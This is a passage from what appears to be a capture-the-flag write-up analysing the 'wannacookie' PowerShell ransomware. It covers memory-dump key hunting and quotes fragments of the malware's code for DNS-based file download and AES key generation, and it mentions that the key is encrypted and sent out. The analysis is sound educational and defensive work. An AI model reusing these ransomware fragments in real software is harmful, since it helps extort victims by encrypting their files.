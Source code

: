 Use [power dump](https://github.com/chrisjd20/power_dump) to process the memory file as shown in the talk.

Then look for variables:

* `matches "^[a-fA-F0-9]+$"`
* `len == 32` because key is 16-bytes

We get five hits

```
033ecb2bc07a4d43b5ef94ed5a35d280
cf522b78d86c486691226b40aa69e95c
9e210fe47d09416682b841769c78b8a3
4ec4f0187cb04f4cb6973460dfe252df
27c87ef9bbda4f709f6b4002fa4af63c
```

Let's see if we can also find the hash. The length is 40 in this case.

We get one match with `len == 40`.

```
b0e59a5e0f00968856f22cff2d6226697535da5b
```

This should be the SHA-1 hash of one of the above. But it's not. So either our keys are wrong or the hash is wrong.

Google doesn't give me anything when I search for the hash, so it's not the SHA-1 hash of anything popular.

### Encryption Analysis
Those are not the key, let's look at the cleaned malware to figure out how encryption happens inside `wannacookie/wanc` function.

`GetOverDNS` downloads files over DNS. First, it downloads `server.crt` which is a normal root CA.

``` powershell
# get server.crt, it will use its public key to encrypt the key before sending them out.
# 7365727665722E637274 == server.crt
$p_k = [System.Convert]::FromBase64String($(GetOverDNS ("7365727665722E637274")))
```

Then it generates a 16 byte random AES key, converts it to hex and creates the SHA-1 hash of it:

``` powershell
# generate a "random" 16-byte encryption key.
$key = ([System.Text.Encoding]::Unicode.GetBytes($(([char[]]([char]01..[char]255) + ([char[]]([char]01..[char]255)) + 0..9 | sort {Get-Random})[0..15] -join '')) | Where-Object {$_ -ne 0x00 })
# encryption key converted to hex.
$keyHex = $(ByteToHex $key)
# keep a hash of encryption key for decryption later, if later the script gets a key, it will compare the hashes first.
$keyHash = $(SHA1 $keyHex)
```

Then it uses the public key of the certificate to encrypt it and then sends it out:
